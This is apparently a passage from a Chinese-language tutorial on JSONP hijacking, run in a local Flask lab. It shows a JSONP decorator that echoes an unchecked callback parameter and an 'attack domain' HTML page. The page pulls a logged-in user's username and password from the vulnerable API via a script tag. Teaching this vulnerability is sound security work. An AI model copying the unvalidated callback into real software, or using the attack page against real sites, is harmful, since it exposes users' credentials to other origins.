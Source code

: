     # jsonp测试
    @interface.route('/jsonp', methods=['GET'])
    def jsonpTest():
        if request.method == 'GET':
            resp = make_response(render_template('jsonp.html'))
            resp.headers['Content-Type'] = 'text/html'
            return resp

jsonp装饰器

    # jsonp 装饰器
    def jsonp(func):
    
        @wraps(func)
        def decorated_function(*args, **kwargs):
            callback = request.args.get('callback', False)
            if callback:
                content = str(callback) + '(' + str(
                    func(*args, **kwargs).data.decode('utf-8')) + ')'
                return current_app.response_class(
                    content, mimetype='application/javascript')
            else:
                return func(*args, **kwargs)
    
        return decorated_function

127.0.0.1:8000/getuser.html （攻击域）

    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <script type="text/javascript">
        	var showdata = function (json) {
        		alert('username: ' + json.username + ' \\npassword: ' + json.password);
        	}
        </script>
        <script src="<http://127.0.0.1:5000/sec/api/user/info?callback=showdata>">
        </script>
        <title>Title</title>
    </head>
    <body>
    </body>
    </html>

与CSRF本地测试差不多，cookie访问`http://127.0.0.1:5000/sec/setcookie` 设置好。这时候，访问`http://127.0.0.1:8000/getuser.html` 就可以看到效果了。

![https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F00e56247-fe65-4d18-a994-5ad5e071f5a9%2FF33DDAE0-52F0-46A8-905B-A715913B59FA.png](https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F00e56247-fe65-4d18-a994-5ad5e071f5a9%2FF33DDAE0-52F0-46A8-905B-A715913B59FA.png)

在请求过程中，可以看到返回的JSON对象
